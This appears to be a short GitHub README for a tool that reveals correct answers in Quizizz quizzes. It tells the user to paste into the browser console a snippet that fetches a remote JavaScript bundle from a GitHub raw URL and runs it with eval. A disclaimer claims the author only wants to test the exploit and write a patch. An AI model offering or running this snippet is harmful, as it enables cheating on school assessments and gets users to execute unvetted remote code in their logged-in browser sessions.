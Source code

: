
# Project Beta
## Fetching Quizizz API

##DISCLAMER: I am not using this for cheating, or hacking... I just want to test how this exploit works and make a patch for teachers later.

It should work in Test and Classic mode.
1. Join Quiz
2. Open console and paste this
```ts
fetch("https://raw.githubusercontent.com/acimovicuwu/nijeNistaSumnjivo/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. You can now close the console. The good answers should be highlighted by background opacity.
